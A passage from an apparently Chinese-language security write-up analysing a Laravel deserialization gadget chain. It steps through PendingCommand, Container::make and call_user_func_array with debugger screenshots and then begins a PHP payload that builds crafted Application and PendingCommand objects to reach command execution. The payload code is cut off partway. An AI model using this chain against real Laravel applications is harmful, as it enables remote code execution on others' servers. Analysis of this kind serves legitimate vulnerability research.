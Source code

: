 再次断点调试,我们终于走到了命令执行最关键的一步，但是在这一步直接挂掉了。

`$exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);`

我们把这一步拆成三步，断点调试：   

![image-20210530162741610](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-30-image-20210530162741610.png)

我们发现`Kernel::class`是一个常量，返回`Illuminate\Contracts\Console\Kernel`

发现是在第二步就直接挂掉了，我们跟进看看。

![image-20210530195743543](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-30-image-20210530195743543.png)

这里进入到了一个父类`Container`的make函数，跟进resolve

![image-20210530200136412](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-30-image-20210530200136412.png)

这里的标注1很关键，首先instances数组本身是我们可控的，然后键名`$anstract`也已知，那我们完全可以控制这里的return返回值，也就控制了第二步中`$this->app[Kernel::class]`的返回值。

同理，我们跟进标注2 的`getConcrete()`

![image-20210530200455485](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-30-image-20210530200455485.png)

可以发现这里同样可以控制返回，那现在我们需要明确的问题是，我们应该返回一个怎样的对象，其含有`call()`方法可以让我们进行命令执行。

就在`Illuminate\Foundation\Application`所继承的 `Illuminate\Container\Container`下，找到了我们需要的函数：

![image-20210530201258106](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-30-image-20210530201258106.png)

这里进入的话会发现调用了`call_user_func_array`回调函数，至此我们的利用链也差不多分析结束。作者返回的是子类`Application`,不过是继承关系的也都没有关系嘛。

那么如果用标注1`instances[]`的方法话，构造如下：

```php
<?php

namespace Illuminate\Auth;
class GenericUser
{
    protected $attributes;
    public function __construct(array $attributes)
    {
        $this->attributes = $attributes;
    }
}
$array=array('expectedOutput' => array("0"=>"1"), 'expectedQuestions' => array("0"=>"1"));
$test=new GenericUser($array);

namespace Illuminate\Foundation;
class Application
{
    protected $instances=[];
    public function __construct($instances=[]){
    $this->instances['Illuminate\Contracts\Console\Kernel']=$instances;
    }
}
$tmp=new Application(); //最后需要返回这个实例，tmp作为中间层处理一下
$app=new Application($tmp);

namespace Illuminate\Foundation\Testing;
class PendingCommand{
    public $test;
    protected $app;
    protected $command;
    protected $parameters;
    public  function __construct($test,$app,$command,$parameters){
```